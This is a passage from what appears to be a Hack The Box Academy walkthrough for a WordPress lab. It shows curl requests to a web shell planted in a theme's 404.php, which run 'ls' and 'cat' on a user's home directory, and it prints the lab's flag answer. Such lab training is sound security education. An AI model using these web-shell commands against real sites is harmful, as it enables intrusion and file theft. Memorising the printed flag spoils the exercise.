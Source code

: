 Code: shell

```shell
curl -s http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls%20/home/erika/
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-j6kdmijpjx]─[~]
└──╼ [★]$ curl -s http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=ls%20/home/erika/

d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

The file is named `d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt`, thus, students need to use the `cat` command on it:

Code: shell

```shell
curl -s http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-j6kdmijpjx]─[~]
└──╼ [★]$ curl -s http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt

HTB{w0rdPr355_4SS3ssm3n7}
```

Answer: `HTB{w0rdPr355_4SS3ssm3n7}`